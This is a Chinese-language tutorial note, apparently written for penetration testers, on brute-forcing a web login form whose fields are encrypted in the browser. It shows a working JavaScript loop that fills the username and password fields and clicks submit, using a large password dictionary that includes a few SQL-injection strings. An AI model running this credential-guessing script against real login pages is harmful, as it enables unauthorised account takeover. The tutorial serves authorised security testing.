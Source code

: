 ## 前言
平时测试的时候，可能会遇到一些接口（如登陆接口）中的某些数据是加密的，如下图：

![](./05.网页接口加密暴破.assets/2023_05_19_10_44_39_busgzKyo.png)



**一般的思路**：通过逆向分析前端加密算法，拿到密钥，再写脚本模拟加密过程构造想要的数据

> [!note]
> 上面的思路是常规的思路，如果代码存在混淆，则比较费时费力，甚至分析不出来
>
> 因为加密都是在前端执行的，那么我们只需要模拟前端的操作即可
>
> 此处抛开burp插件不谈



## 解决办法
通过js模拟操作即可

1. 定位输入框和按钮
2. 设置数据
3. 点击按钮

分析代码，找到我们要输入的框

![](./05.网页接口加密暴破.assets/2023_05_19_10_44_39_2CQioSmT.png)

然后定位到数据，有jquery的话会方便很多，没有就使用原生的js也不影响

```javascript
document.getElementsByName("username")[0]
document.getElementsByName("password")[0]
document.getElementsByClassName("btn btn-primary btn-block")[0]
```
如果不好找，可以直接编辑html，手动添加id属性

![](./05.网页接口加密暴破.assets/2023_05_19_10_44_40_tvyH5bCY.png)

然后再通过id进行定位

```javascript
document.getElementById("testusername")
```
定位后该插入数据的就插入数据，该点击的就点击，具体看下面的实现代码
## 实现代码
```javascript
var usernames = new Array('13299999999','13333333333','18888888888','13000000000');
var passwords = new Array('qwe123','root','toor','admin','admin123','admin666','admin888','123456','12345','1234','123','12','1','administrator','administrators','admin123456','admin12345','admin1234','admin12','admin1','phpcms','jyxy','asd123','xiaoyin','daxiong','ironport','111111','0','11111111','112233','123123','123321','12345678','654321','666666','888888','abcdef','abcabc','abc123','a1b2c3','test','aaa111','123qwe','qwerty','qweasd','password','p@ssword','passwd','iloveyou','5201314','monkey','1234567','letmein','trustno1','dragon','baseball','master','sunshine','ashley','bailey','passw0rd','shadow','superman','qazwsx','michael','football','xiaoming','qq123456','taobao','wang1234','zxc','changeme','654310','user','Password1','Password123','sql','sqlserver','server','webserver123','pos','kingdee','anypass','jie1982','database','sapassword','9876','sa123','p@ssw0rd','sa','1q2w3e','1q2w3e4r','1234qwer','8848','sasa','asas','9','99','999','9999','99999','999999','9999999','99999999','8','88','888','8888','88888','8888888','88888888','7','77','777','7777','77777','777777','7777777','6','66','666','6666','66666','5','55','555','5555','55555','555555','4','44','444','4444','44444','444444','4444444','3','33','333','3333','33333','333333','2','22','222','2222','22222','222222','11','111','1111','11111','manager','!@#$%^&*()','qwerty123456','zxcvbn123456','sa1','as','aa','aaa','abcd1234','aaaaaa','asdfghjkl;\'','sa123456789','sasasasa','@#$%&*()','gsp','asdf','power','123@#','778899','13579','12344321','147258','!@#$%^','!@#123','!@#$%^&*()','123!@#','!@##@!','1q2w3e4r','1q2w3e4r5t','1qaz2wsx','1qazxsw2','1qaz2wsx3edc','a','admin75','asd','crm','chinanet','erp','hello','hr','iem','king','MEDIA','microsoft','mnbvcxz','mysql','mysteelsoft','plm','q1w2e3r4','qwertyuiop','r4e3w2q1','sa!@#','sa!@#$%^','sa123456','sapass','saas','sasasa','sql2008','sqlpass','sqlpassword','sqladmin','sys','system','sunny','tianya','zxcvbnm','ems','crm2006','crm2007','crm2008','crm2009','crm2010','hrsvr','sa20060876','golf','123456Aa','123456Ab','123456Ac','test123','WebLogic','free','user1','user12','user123','user1234','user12345','user123456','#NAME?','liuwei123','admin2006','neteye','Test123456','admin*123','ucenter','aa123456','h3capadmin','1234567890','boston','guest','phpmyadmin','fuckyou','7007','jyadmin','020php168','seeyon','111111111','nozuonodie','1\'or\'1\'=\'1','world','helloworld','manageradmin111111','manageradmin','adminmanager111111','adminmanager','123456qq','qazwsxedc','huangxiaoqin','123456a','huawei','ncportal','111000','1314520','\'or\'=\'or\'','default','enable','discuz','laixianjian','unvs123','wordpress','leolee','localhost','10000','neworiental','youyuan','zuods123','123***','tomcat','dba','zted888888','xunlei','110','120','114','119','apache','xcmcn123456','adminInfo','skyclass','XXOO','xuezhenhe','10086','10010','guanliyuan','yunwei','cctv6','cctv5','cctv4','cctv3','cctv2','cctv1','12306','12306caonima','ete123','server123','null','admin111','caonima','nimabi','mlgb','conadmin','1qaz!QAZ','TRUE','FALSE');
for (i in usernames) {
    document.getElementById("testusername").value=usernames[i]
    for (j in passwords) {
        document.getElementById("testpassword").value=passwords[j]
        document.getElementsByClassName("btn btn-primary btn-block")[0].click()
    }
}
```
效果：

![](./05.网页接口加密暴破.assets/2023_05_19_10_44_40_nKg5h0H7.png)


